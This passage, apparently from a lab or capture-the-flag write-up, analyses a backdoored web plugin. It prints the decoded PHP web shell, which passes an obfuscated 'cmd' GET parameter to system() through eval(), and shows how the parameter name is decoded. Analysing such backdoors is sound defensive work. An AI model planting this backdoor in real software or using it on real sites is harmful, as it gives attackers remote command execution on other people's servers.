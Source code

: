 We can see the following line on the code, let's decode the base64:

![Pasted image 20250127161206.png](../../IMAGES/Pasted%20image%2020250127161206.png)

We got `if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } `, we can decode the variable names using:

`php -r 'echo "\143\155\x64" . ":" . "\143\x6d\144";'`


![Pasted image 20250127161313.png](../../IMAGES/Pasted%20image%2020250127161313.png)

We got `cmd`, let's breakdown the functionality of the backdoor:

```ad-summary
1. It decodes the `base64` string, which brings up the code we found.
2. It executes the code using the `eval()` function.
3. The decoded code runs what's been passed using `cmd` `GET` parameter using `system` function.
```


We can go to the dashboard and we can check that the plugin is running there:

![Pasted image 20250127161615.png](../../IMAGES/Pasted%20image%2020250127161615.png)
